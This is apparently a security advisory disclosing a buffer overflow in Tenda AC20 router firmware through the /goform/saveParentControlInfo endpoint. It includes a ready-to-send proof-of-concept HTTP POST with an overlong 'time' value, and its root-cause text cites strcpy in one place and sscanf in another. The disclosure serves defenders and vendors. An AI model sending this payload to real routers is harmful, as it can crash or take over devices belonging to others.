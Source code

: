 

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <= V16.03.08.12 (latest)

**Firmware download address:** [tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router, V16.03.08.12, where an attacker sent a well-constructed http post packet to the request path /goform/saveParentControlInfo, triggering a denial of service attack or even RCE, specifically via the function strcpy(s + 2, var); triggered, the reason is because there is no boundary check on var

## Vulnerability details

The prerequisite is that the function is called saveParentControlInfo

![](img/1.png)

Here the two fields are valued deviceId, deviceName, and then the function compare_parentcontrol_time is called, and the time is valued in the function compare_parentcontrol_time, but because of sscanf(s, "%[^-]-%s", v3, v4); Not checking results in a buffer overflow vulnerability

![](img/2.png)

## POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.102.145
Content-Length: 95
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

deviceName=123&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-b
```

![](img/3.png)



![](img/4.png)